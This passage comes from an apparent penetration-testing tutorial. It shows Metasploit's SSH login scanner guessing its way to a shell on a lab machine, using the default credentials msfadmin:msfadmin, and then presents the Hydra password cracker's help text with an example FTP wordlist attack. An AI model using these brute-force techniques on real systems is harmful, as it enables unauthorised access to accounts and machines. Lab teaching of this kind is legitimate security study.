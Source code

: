 ```
```

Since we set the verbose option, we can see all the attempts as they take place. Depending on the number of username and password combinations, this can take quite some time to run.
When valid credentials are found, a success message is displayed and a command shell is opened. It does not automatically drop us in, though, so we can display the current active sessions with the sessions command.
```
msf5 auxiliary(scanner/ssh/ssh_login) > sessions
Active sessions
===============
Id  Name  Type         Information                              Connection
  --  ----  ----         -----------                              ----------
  1         shell linux  SSH msfadmin:msfadmin (172.16.1.102:22)  172.16.1.100:37615 -> 172.16.1.102:22 (172.16.1.102)
```

This says that it is an SSH connection. To interact with this session, use the `-i` flag.

```
msf5 auxiliary(scanner/ssh/ssh_login) > sessions -i 1
[*] Starting interaction with 1...
id
uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin)
```

Now we are connected to the target via SSH and can run commands like normal.

## Hydra

The next tool we will use is Hydra, a powerful login cracker which is very fast and supports a number of different protocols. To show the help and some basic usage options, simply type hydra in the terminal. (Note, if you were previously in the msf console, make sure you cd out of it before using Hydra.)
```
~$ hydra
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [service://server[:PORT][/OPT]]
Options:
  -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE  try password PASS, or load several passwords from FILE
  -C FILE   colon separated "login:pass" format, instead of -L/-P options
  -M FILE   list of servers to attack, one entry per line, ':' to specify port
  -t TASKS  run TASKS number of connects in parallel per target (default: 16)
  -U        service module usage details
  -h        more command line options (COMPLETE HELP)
  server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
  service   the service to crack (see below for supported protocols)
  OPT       some service modules support additional input (-U for module help)
Supported services: adam6500 asterisk cisco cisco-enable cvs firebird ftp ftps http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp
Hydra is a tool to guess/crack valid login/password pairs. Licensed under AGPL
v3.0. The newest version is always available at https://github.com/vanhauser-thc/thc-hydra
Don't use in military or secret service organizations, or for illegal purposes.
Example:  hydra -l user -P passlist.txt ftp://192.168.0.1
```
